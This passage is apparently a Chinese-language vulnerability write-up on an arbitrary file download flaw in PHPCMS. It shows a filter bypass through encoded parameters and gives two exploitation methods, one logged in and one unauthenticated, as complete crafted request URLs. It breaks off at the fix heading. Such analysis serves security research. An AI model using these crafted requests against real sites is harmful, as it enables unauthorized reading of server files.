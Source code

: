 从过滤内容来看直接带”&lt;“是不行的，需要构造参数，先来看看经过了几次过滤：

第一次参数得经过attachments-&gt;swfupload_json函数进行param::set_cookie加密:

[![](./img/86007/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e06779a2b329cc4c.png)

最后输出的f=p%3C 就是咱们想要的”&lt;“字符。



**漏洞利用**

**方案一：**

登录普通用户，访问链接：

```
http://localhost/index.php?m=attachment&amp;c=attachments&amp;a=swfupload_json&amp;aid=1&amp;src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3D./phpcms/modules/content/down.ph&amp;f=p%3%25252%2*70C
```

获取分配的att_json

[![](./img/86007/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01f4ecc91ffea7f201.png)

将这段json值带入到down类的init函数中去：

```
http://localhost/index.php?m=content&amp;c=down&amp;a=init&amp;a_k=013ceMuDOmbKROPvvdV0SvY95fzhHTfURBCK4CSbrnbVp0HQOGXTxiHdRp2jM-onG9vE0g5SKVcO_ASqdLoOSsBvN7nFFopz3oZSTo2P7b6N_UB037kehz2lj12lFGtTsPETp-a0mAHXgyjn-tN7cw4nZdk10Mr2g5NM_x215AeqpOF6_mIF7NsXvWiZl35EmQ
```

点击下载后即可下载目标文件：

[![](./img/86007/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t017fb425ec63f5d73e.png)

**方案二：**

在未登录的情况下访问：

```
http://localhost/index.php?m=wap&amp;c=index&amp;a=init&amp;siteid=1
```

获取当前的siteid

[![](./img/86007/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t018394ba7fdf28c236.png)

再访问:



```
http://localhost/index.php?m=attachment&amp;c=attachments&amp;a=swfupload_json&amp;aid=1&amp;src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3D./phpcms/modules/content/down.ph&amp;f=p%3%25252%2*70C
POST_DATA:userid_flash=14e0uml6m504Lbwsd0mKpCe0EocnqxTnbfm4PPLW
```

[![](./img/86007/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t018c28643f0a107997.png)

**修复方案**
